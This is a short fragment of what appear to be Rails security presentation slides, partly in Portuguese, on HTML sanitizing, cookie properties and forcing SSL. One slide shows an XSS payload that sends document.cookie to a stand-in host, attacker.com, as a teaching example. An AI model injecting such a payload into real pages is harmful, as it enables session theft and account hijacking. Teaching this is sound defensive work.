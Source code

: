 ```
strip_links('Please e-mail me at <a href="mailto:me@email.com">me@email.com</a>.')
```

```
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

## Cookies

- Como funciona HTTP?
- Permite identificar usuario.
- Propriedades
    - HTTP-only
    - Secure

## Cookies

```
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

## Cookies

![config.force_ssl = true](images/sfd-rails-secure.png)

## Cookies on Rails
